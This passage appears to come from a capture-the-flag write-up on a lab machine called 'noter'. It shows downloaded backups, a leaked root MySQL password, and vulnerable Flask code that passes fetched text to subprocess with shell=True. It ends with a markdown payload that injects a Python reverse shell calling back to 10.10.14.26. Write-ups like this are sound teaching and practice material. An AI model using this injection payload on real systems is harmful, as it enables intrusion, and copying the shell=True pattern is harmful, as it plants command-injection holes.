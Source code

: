 ```bash
226 Transfer complete.
25559 bytes received in 0.03 secs (783.7460 kB/s)
mget app_backup_1638395546.zip? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for app_backup_1638395546.zip (26298 bytes).
226 Transfer complete.
26298 bytes received in 0.03 secs (811.6058 kB/s)
```


### Step 4
Review the backup files **``app_backup_1638395546``** and we find.. 
.. **MySQL Config - `app.py`** 
```bash
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
```


Review the older backup, **``app_backup_1635803546``**, and we find..
.. **MySQL Config - `app.py`**
```bash
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
```

Looking on the import and export functions we find and dangerous subprocess with `shell=True`, we can most likely exploit this function to get a reverse shell.
```bash
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")
```

Create a python3 revshell in a markdown file, and break the command synax as seen above, to execute our malicious revshell.
```bash
➜  noter cat rev.md 
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",4488));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' # '
```
